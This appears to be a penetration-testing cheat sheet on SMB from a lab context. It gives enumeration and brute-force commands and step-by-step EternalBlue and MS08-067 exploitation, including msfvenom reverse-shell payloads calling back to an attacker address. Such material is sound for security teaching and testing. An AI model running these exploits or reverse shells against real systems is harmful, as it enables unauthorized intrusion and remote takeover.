# SMB

## Theory 

The Server Message Block Protocol (SMB Protocol) is a client-server communication protocol used for sharing access to files, printers, serial ports, and data on a network. It can also carry transaction protocols for authenticated inter-process communication.  

SMB protocols operate on different ports depending on the type of communication:

- **Port 445 (TCP)**: This port is used for direct SMB communication over TCP/IP, including file and printer sharing, remote administration, and inter-process communication.

- **Port 139 (TCP)**: This port is used for SMB over NetBIOS, which is an underlying protocol that SMB relies on for name resolution and session establishment.

## Practice  

### Authentication 

{% tabs %}
{% tab title="Null session" %}
`Null session` refers to an unauthenticated session established with an SMB server where the client does not provide any credentials.
```bash
#SmbClient
smbclient -U '' -N -L '\\<IP>\'

#CrackMapExec
crackmapexec smb <IP> -u '' -p '' --shares
```
{% endtab %}

{% tab title="Anonymous logon" %}
The inclusion of `Anonymous` and `Everyone` access group in the `pre-Windows 2000 compatible` access group allow us to make an anonymous connection over SMB.
Using a random username and password you can check if the target accepts annonymous/guest logon
```bash
#SmbClient
smbclient -N -L '\\<IP>\'
smbclient -U 'a' -N -L '\\<IP>\'

#CrackMapExec
crackmapexec smb <IP> -u 'a' -p '' --shares
```
{% endtab %}

{% tab title="Bruteforce" %}
Tools like [hydra](https://github.com/vanhauser-thc/thc-hydra) or [nmap](https://github.com/nmap/nmap) can be used to operate authentication bruteforce attacks.
```bash
# hydra
hydra -L usernames.txt -P passwords.txt <IP> -V -f smb

# nmap
nmap --script smb-brute -p 445 <IP>
```
{% endtab %}
{% endtabs %}

### Vulnerabilities

You may use nmap to scan target for SMB vulnerabilities
```bash
sudo nmap -p 445 --script="smb-vuln-*" <IP>
```

#### EternalBlue - MS17-010  

Eternalblue is a flaw that allows remote attackers to execute arbitrary code on a target system by sending specially crafted messages to the SMBv1 server.

{% tabs %}
{% tab title="Enumerate" %}
Tools like [nmap](https://github.com/nmap/nmap) can be used to detect the presence of the EternalBlue vulnerability.
```bash
sudo nmap -p 445 --script="smb-vuln-ms17-010" <IP>
```
{% endtab %}
{% tab title="Exploit - worawit" %}
To exploit, we may use the Worawit [PoC](https://github.com/worawit/MS17-010) on GitHub

- first, we have to edit `USERNAME` and `PASSWORD` at the begening of the `zzz_exploit.py` script.
- Second, generate a reverse shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=9001 EXITFUNC=thread -f exe -a x86 --platform windows -o pwned.exe
```
- Third, we have to edit , he `smb_pwn` function in `zzz_exploit.py`. This is the action taken with the exploit.
```bash
smb_send_file(smbConn, '/home/v4resk/Documents/www/pwned.exe', 'C', '/pwned.exe')
service_exec(conn, r'cmd /c c:\\pwned.exe')
```
- Fourth, trigger the exploit
```bash
#Exploit
python2.7 zzz_exploit.py <IP>

#Exploit on ntsvcs named pipe
python2.7 zzz_exploit.py <IP> ntsvcs
```
{% endtab %}
{% tab title="Exploit - helviojunior" %}
To exploit, we may use the helviojunior [PoC](https://github.com/helviojunior/MS17-010) on GitHub. He forked the worawit repo and added a single `send_and_execute.py`, which is really handy.

- First, we have to edit `USERNAME` and `PASSWORD` at the begening of the `send_and_execute.py` script
- Second, generate a reverse shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=9001 EXITFUNC=thread -f exe -a x86 --platform windows -o pwned.exe
```
- Third, trigger the exploit
```bash
#Exploit
python2.7 send_and_execute.py <IP> pwned.exe

#Exploit on ntsvcs named pipe
python2.7 send_and_execute.py <IP> pwned.exe ntsvcs
```
{% endtab %}
{% endtabs %}

#### MS08-067 

The MS08-067 vulnerability is a buffer overflow vulnerability in the Windows Server service.The vulnerability could allow remote code execution if an affected system received a specially crafted RPC request. On Microsoft Windows 2000, Windows XP, and Windows Server 2003 systems, an attacker could exploit this vulnerability without authentication to run arbitrary code.

{% tabs %}
{% tab title="Enumerate" %}
Tools like [nmap](https://github.com/nmap/nmap) can be used to to detect the presence of the MS08-067 vulnerability.
```bash
sudo nmap -p 445 --script="smb-vuln-ms08-067" <IP>
```
{% endtab %}

{% tab title="Exploit" %}
To exploit, we may use the jivoi [PoC](https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py) on GitHub.

- First, generate a Python shellcode and utilize it to replace the current one in `ms08-067.py`.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=9001 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
```

- Second, we have to guess version of windows and language pack. The exploit takes advantage of knowing where some little bits of code will be in memory, and uses those bits on the path to shell.

- Third, trigget the exploit
```bash
#6 is for Windows XP SP3 English (NX)
python ms08-067.py 10.10.10.4 6 445

#4 is for Windows 2003 SP1 English
python ms08-067.py 10.10.10.4 4 445
```

{% endtab %}
{% endtabs %}


## Resources

{% embed url="https://0xdf.gitlab.io/2019/02/21/htb-legacy.html" %}